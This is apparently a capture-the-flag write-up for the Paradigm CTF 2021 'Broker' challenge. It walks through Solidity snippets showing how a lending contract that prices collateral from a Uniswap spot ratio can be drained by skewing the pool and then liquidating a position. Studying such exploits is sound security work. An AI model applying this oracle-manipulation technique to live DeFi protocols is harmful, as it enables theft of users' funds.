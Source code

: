 # Broker Challenge
| Paradigm CTF 2021 Challenge - Oracle Manipulation Hack

## Description & Setup
| This broker has pretty good rates
| ITEM             | Description                                                                                                                      |
|------------------|----------------------------------------------------------------------------------------------------------------------------------|
| Contract Address <- Our hack target | [Paradigm-CTF-2021-Broker](https://github.com/paradigmxyz/paradigm-ctf-2021/tree/master/broker/public)        |
| Setup Contract   | [Paradigm-CTF-2021-Broker-Setup](https://github.com/paradigmxyz/paradigm-ctf-2021/blob/master/broker/public/contracts/Setup.sol) |
| Solution Contract| [Solution](https://github.com/paradigmxyz/paradigm-ctf-2021/blob/master/broker/private/Exploit.sol)                              |

The majority of the setup is in the `Setup.sol` smart contract, it contains:
- AMT Token Contract: been used as the treasury token for lending protocol
- IUniswapV2Factory Interface: interface for Uniswap V2 create pair & Setup
- Setup Contract: create and bootstrap the token/weth pool for borrowing against WETH

Below is the setup logic: 
- 1st create a pair for AMT & WETH
- 2nd transfer 25 WETH & 500,000 AMT token to the pair
- 3rd deposit 25 eth to borrow 250,000 AMT token from the lending protocol

```solidity
  // create and bootstrap the token/weth pool for borrowing against WETH
    constructor() payable {
        require(msg.value == 50 ether);
        weth.deposit{value: msg.value}();

        token = new Token();
        pair = IUniswapV2Pair(factory.createPair(address(weth), address(token)));
        broker = new Broker(pair, ERC20Like(address(token)));
        token.transfer(address(broker), 500_000 * DECIMALS);

        // 1:25
        weth.transfer(address(pair), 25 ether);
        token.transfer(address(pair), 500_000 * DECIMALS);
        pair.mint(address(this));

        weth.approve(address(broker), type(uint256).max);
        broker.deposit(25 ether);
        broker.borrow(250_000 * DECIMALS);

        totalBefore = weth.balanceOf(address(broker)) + token.balanceOf(address(broker)) / broker.rate();
    }
```

Essentially, `broker.sol` is a simplified version of a ZERO-Interest Rate lending protocol. There are a lot of attack surfaces as a lending protoocl:
- Collaterialized assets has reentrancy risks
- Protocol might have reentrancy risks as well
- Protocol implementation issue
- Oracle attacks / manipulation & more

## Solution

The way to attack this lending protocol is relatively easy to figure out.
The key of the manipulation is within these lines of the code:
```solidity
    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }
```
The oracle implementation is without the TWAP just brutally using the spot price. 
Thus, we can use flashloan to manipulate the spot price and perform the attack, or just simply use the amount of tokens we had to perform the attack.
In the liquidate function:
```solidity
  // safeDebt calculation
    function safeDebt(address user) public view returns (uint256) {
          return deposited[user] * rate() * 2 / 3;
    }

 // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }
```
If user's debt is bigger than their safeDebt which means user borrowed AMT token price goes rocket.
Anyone can call liquidation method to liquidate user's fund.

Implementation:
Step 1: Trade 13 ETH for AMT token -> make the token price go roket
```solidity
 // trade 13 eth for some tokens
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(token);
    uint256[] memory tokensReceived = router.swapExactTokensForTokens(
        ethToSend,
        1,
        path,
        address(this),
        type(uint256).max
    );
```

Step 2: we can liquidate the guy with the tokens received
```solidity
    uint256 receivedCollateral = broker.liquidate(address(setup), tokenReceived);
    require(weth.balanceOf(address(this)) > balanceBefore);
```
Although the given solution manipulation is not profitable, but we can for sure manipulate the oracle.
I found another method online, which has similar idea:

Step 1: skew the uniswap ratio by buying lots of tokens
```solidity
    weth.transfer(address(pair), weth.balanceOf(address(this)));
```
Step 2: since win condition is when there are less than 5 eth in the pool, thus we only need to liquidate 21 eth.
```solidity
    uint256 liqAmount = 21 ether * rate;
    broker.liquidate(address(setup), liqAmount);
```

